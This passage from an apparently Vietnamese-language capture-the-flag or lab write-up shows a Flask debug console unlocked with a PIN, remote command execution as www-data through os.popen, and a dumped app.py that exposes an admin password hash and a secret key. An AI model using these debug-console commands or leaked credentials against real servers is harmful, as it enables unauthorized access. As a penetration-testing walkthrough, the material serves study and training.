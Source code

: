 Trong trường hợp này, mã PIN `299-818-227` là đúng và cho phép tiếp tục. Sau khi mở khóa bảng điều khiển gỡ lỗi, có được RCE:

```
>>> import os
>>> os.popen("id").read()
'uid=33(www-data) gid=33(www-data) groups=33(www-data)\n'
>>> 
```

## Escalation

### Flask Application Enumeration

Mặc dù có thể có được một reverse shell tại thời điểm này, có thể leo thang theo một cách khác. Biết rằng đây là một ứng dụng Flask, hãy xem xét file main `app.py`:

```
>>> print(os.popen("cat app.py").read())
#!/usr/bin/python3
import datetime
import functools
import os
import re
import urllib
from base64 import b64decode
import getpass

import flask
from flask import (Flask, flash, Markup, redirect, render_template, request,
                   Response, session, url_for)
from markdown import markdown
from markdown.extensions.codehilite import CodeHiliteExtension
from markdown.extensions.extra import ExtraExtension
from micawber import bootstrap_basic, parse_html
from micawber.cache import Cache as OEmbedCache
from peewee import *
from playhouse.flask_utils import FlaskDB, get_object_or_404, object_list
from playhouse.sqlite_ext import *


#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'
ADMIN_PASSWORD = '1edfa9b54a7c0ec28fbc25babb50892e'
APP_DIR = os.path.dirname(os.path.realpath(__file__))
DATABASE = 'sqliteext:///%s' % os.path.join(APP_DIR, 'blog.db')
DEBUG = False
SECRET_KEY = '2d82e3a08a632feb12a4d2e1159a224750480122a1fb9845e67a7305cfff4ec8'
...
>>>
```

Ứng dụng này chứa mật khẩu người dùng admin được comment (`#ADMIN_PASSWORD = 'ee05d64d2528102d45e2db60986727ed'`). Nhớ lại nội dung của tệp `note.txt` đã recover từ máy chủ FTP:

